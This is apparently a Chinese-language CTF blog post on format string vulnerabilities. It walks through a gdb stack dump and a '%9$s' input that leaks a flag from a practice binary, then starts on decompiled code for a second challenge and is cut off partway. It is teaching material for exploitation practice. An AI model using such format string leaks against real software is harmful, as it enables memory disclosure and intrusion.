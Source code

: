 ﻿---
layout:     post
title:      格式化字符串-2
subtitle:   
date:       2023-10-23
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

## 格式化字符串漏洞的例子

### 1. [2017-UIUCTF-pwn200-GoodLuck](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck)

这个很简单，直接gdb调试下就行了

```bash
───────────────[ STACK ]─────────────────────
00:0000│ rsp 0x7fffffffe048 —▸ 0x400890 (main+234) ◂— mov edi, 0x4009b8
01:0008│     0x7fffffffe050 ◂— 0x31000000
02:0010│     0x7fffffffe058 —▸ 0x602ca0 ◂— 0x34333231 /* '1234' */
03:0018│     0x7fffffffe060 —▸ 0x6022a0 ◂— 0x602
04:0020│     0x7fffffffe068 —▸ 0x7fffffffe070 ◂— 'flag{11111111111111111'
05:0028│     0x7fffffffe070 ◂— 'flag{11111111111111111'
06:0030│     0x7fffffffe078 ◂— '11111111111111'
07:0038│     0x7fffffffe080 ◂— 0x313131313131 /* '111111' */
```

可以看到flag，如果非要利用format-string的话，可以注意到flag地址在rsp下面的第4个，函数前6个参数在寄存器中（rdi中是输入字符串的地址），所以%9$s即可。

```py
❯ ./goodluck
what's the flag
%9$s
You answered:
flag{11111111111111111
```

### 2. [pwn3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2016-CCTF-pwn3)

反汇编后的main函数如下：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int command; // eax
  char s1[40]; // [esp+14h] [ebp-2Ch] BYREF
  int v5; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(s1);
  ask_password(s1);
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();
      command = get_command();
      v5 = command;
      if ( command != 2 )
        break;
```